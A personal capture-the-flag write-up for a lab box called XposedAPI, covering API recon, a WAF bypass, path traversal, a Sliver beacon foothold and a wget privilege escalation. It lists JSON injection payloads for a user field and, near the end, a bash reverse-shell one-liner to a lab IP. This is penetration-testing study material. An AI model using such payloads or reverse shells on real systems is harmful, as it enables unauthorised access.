

# XposedAPI Writeup

Name: XposedAPI
Date:  4/11/2023
Difficulty:  Intermediate
Goals: 
- TJNULL clearance
Learnt:
- API routes are more important than an endpoint, but understanding the endpoint is more important that any route.
- I am so close to not rabbit holing
- None of these boxes from Proving Ground ever make you spray users and password  
Beyond Root:
- Write some C and use make some how twinned with [[Sybaris-Helped-Through]]

- [[XposedAPI-Notes.md]] - tried to just hack the machine and not worry about noting just screenshotting everything 

## Recon

The time to live(ttl) indicates its OS. It is a decrementation from each hop back to original ping sender. Linux is < 64, Windows is < 128.


Checking port 13337 with `curl`


Collection the routes to ingest in the automating the content discovery if required


We are denied by the WAF

Failed bypass attempt - I forget about `X-Forwarded-For:`, but I was in the correct direction


Version 


Breaking JSON for the error 


Invalid user, we need a user...

Hitting the wall of the API


Trying harder to get by without a username:
HackTrick API 
```json
{"user" :"gunicorn", "url":  "/logs",}
{"user" :true, "url":  "/logs",}
{"user" :null, "url":  "/logs",}
{"user" :1, "url":  "/logs",}
{"user" :[true], "url":  "/logs",}
{"user" :["gunicorn", true], "url":  "/logs",}
{"user" :$neq:"gunicorn", "url":  "/logs",}
// Send array 
{user=gunicorn, "url":  "/logs",}
```
- tried also www-data, root
- checked hints names confirming RCE which seems obvious but time 
- took hint:
	- One endpoint has a vulnerability you need to leverage to exploit another endpoint. Find a username.


...

...

...

...

...

...


Did not find any users with `ffuf`


Tried to overflow the application encase it is a buffer overflow mostly for completionism's stake


Tried encoding a breaking the strings quotes


Tried wildcards for /log route to bypass the WAF and get some logs

...

...

...

...


Tried arjun to brute force any obvious parameters I may have missed and just to test it


Tried a tool to enumerate the WAF


## Exploit

At this point I took a hint: which I forget to copy down, but essentially it said something about RCE, but another endpoint will help get a username.  

https://hacken.io/discover/how-to-bypass-waf-hackenproof-cheat-sheet/
```
[**w3af**](https://github.com/andresriancho/w3af) — Web Application Attack and Audit Framework

[**wafw00f**](https://github.com/EnableSecurity/wafw00f) — Identify and fingerprint Web Application Firewall

[**BypassWAF**](https://github.com/vincentcox/bypass-firewalls-by-DNS-history) **–** Bypass firewalls by abusing DNS history. This tool will search for old DNS A records and check if the server replies for that domain. 

[**CloudFail**](https://github.com/m0rtem/CloudFail) – is a tactical reconnaissance tool that tries to find the original IP address behind the Cloudflare WAF.
```

Dorked bypassing WAF and we were successful


We have a path traversal vulnerability for the `/etd/passwd`: 


Trying with the username `clumsyadmin` for a new response from invalid user.

## Foothold

And then the out of band file retrieval and happy I have memorise the differences in terminology for in and out of band attack dichotomy. 


Sliver beacon by way of updating the application with `/restart` API endpoint. 


## Privilege Escalation

Ran linpeas and almost instantly found the `wget` GTFObin.


And we are root.


## Post-Root-Reflection  

I did not use noting for this box. I just tried changing up to more improvised methodology to tried to avoid rabbit holes of service enumeration overload and because I had worked ten hours starting at 5 am and limited sleep. Slept after work and just calmly finished this machine in the 3 hours.

## Beyond Root

Understanding `make` - why does `system("/bin/bash -i >& /dev/tcp/192.168.45.225/6379 0>&1",NULL,NULL);` not work. Twinned with [[Sybaris-Helped-Through]]
```
make -C ./src
```

How to avoid the situation prioritising focusing on contextual awareness over the tried and tested methods or historical?